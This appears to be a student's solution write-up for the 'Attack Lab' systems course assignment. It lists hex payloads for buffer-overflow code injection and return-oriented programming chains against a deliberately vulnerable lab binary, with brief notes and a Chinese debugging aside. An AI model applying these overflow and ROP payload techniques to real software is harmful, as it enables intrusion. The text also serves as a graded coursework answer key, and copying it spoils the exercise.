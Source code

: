# Attack lab

## Code Injection

### level 1

easy, overflow to return to touch1

```txt
30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 c0 17 40
```

### level 2

overflow to make code return to someplace in stack, and execute some code for passing arguments and then call touch2.

```as
0000000000000000 <_start>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	pushq  $0x4017ec
   c:	c3                   	retq   
```

```txt
48 c7 c7 fa 97 b9 59 68 ec 17 40 00 c3 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 78 dc 61 55 00 00 00 00
```

### level 3

like what you do in level 2, notice which place should the string put in the stack(the start of your input is errupted by the code and the other place will be used when ```push```). So you should put it at the end of buffer and return address of test.

```as
0000000000000000 <_start>:
   0:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
   7:	68 fa 18 40 00       	pushq  $0x4018fa
   c:	c3                   	retq   
```

```txt
48 c7 c7 a8 dc 61 55 68 fa 18 40 00 c3 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 78 dc 61 55 00 00 00 00 35 39 62 39 39 37 66 61
```

## Return-Oriented Programming

### level 4

using ```popq``` to pass args.

```txt
30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 cc 19 40 00 00 00 00 00 fa 97 b9 59 00 00 00 00 a2 19 40 00 00 00 00 00 ec 17 40 00 00 00 00 00
```

### level 5

我一开始跑了几遍以为rsi的值是固定的48，我还在想为什么实验文档说有8个gadget，我他妈3个就完了，结果跑的时候io库代码报错。麻了，之前出过一样的问题，怀疑是堆栈没有16字节对齐SSE&xmm，或者junk太长(缓冲区后面还塞了48个字符，我以为rsi就是offset固定为48)。排查了半天发现rsi有的时候变成49了，脑子也没转过这个弯来。

核心是根据lea指令两个参数去凑，rdi只能用mov，rsi只能movl顺便便于计算还要转几个弯。只能说结论下太早，后面完全被干扰了。

answer:

```txt
30 31 32 33 34 35 36 37 30 31 32 33 34 35 36 37 30 31 32 33 34 35 36 37 30 31 32 33 34 35 36 37 30 31 32 33 34 35 36 37 06 1a 40 00 00 00 00 00 a2 19 40 00 00 00 00 00 ab 19 40 00 00 00 00 00 48 00 00 00 00 00 00 00 dd 19 40 00 00 00 00 00 34 1a 40 00 00 00 00 00 13 1a 40 00 00 00 00 00 d6 19 40 00 00 00 00 00 a2 19 40 00 00 00 00 00 fa 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61
```